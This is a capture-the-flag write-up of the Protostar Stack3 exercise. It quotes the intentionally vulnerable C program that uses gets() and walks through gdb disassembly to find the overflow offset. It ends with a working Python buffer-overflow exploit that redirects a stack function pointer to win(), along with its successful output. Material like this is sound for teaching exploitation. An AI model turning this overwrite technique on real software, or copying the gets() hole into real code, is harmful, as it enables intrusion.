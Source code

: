 Our goal is to solve this explotation challenge <i> [Stack3](https://exploit.education/protostar/stack-three/)</i>
by redirecting code to function win

# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```
## Problem of code
In this code we have a function-pointer placed in stack, which will be called if its value 
is different than zero. We also have a gets function which is dangerous because it doesn't 
know in advance how many characters will be read.


We will execute the programm with gdb to have a view of the assembly code.

```

0x08048438 <main+0>:	push   %ebp
0x08048439 <main+1>:	mov    %esp,%ebp
0x0804843b <main+3>:	and    $0xfffffff0,%esp
0x0804843e <main+6>:	sub    $0x60,%esp
0x08048441 <main+9>:	movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:	lea    0x1c(%esp),%eax
0x0804844d <main+21>:	mov    %eax,(%esp)
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    $0x8048560,%eax
0x08048461 <main+41>:	mov    0x5c(%esp),%edx
0x08048465 <main+45>:	mov    %edx,0x4(%esp)
0x08048469 <main+49>:	mov    %eax,(%esp)
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret  

```

The problem in this case is when we move a value from the stack to %eax and then call %eax.

```

0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax

```

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that %eax 
will be equal to 0x51515151 before <main+61>.


```

0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
(gdb) b *main +61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack3 < /home/user/tmp
calling function pointer, jumping to 0x51515151

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers 
eax            0x51515151	1364283729
ecx            0x0	0
edx            0xb7fd9340	-1208118464


```

We know that the ASCII value 0x51 is letter Q so our exploit string will be 
"AAAABBBBCCCC....OOOOPPPP"+ the address of function win 

We obtain from gdb the address of function win

```
(gdb) x win
0x8048424 <win>:	0x83e58955

```

And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string = string.split("QQQQ")[0]
        string = string + struct.pack("I",0x08048424)

        print(string)

```



```
user@protostar:~$ python stack3.py | /opt/protostar/bin/stack3

calling function pointer, jumping to 0x08048424
code flow successfully changed

user@protostar:~$ 

```

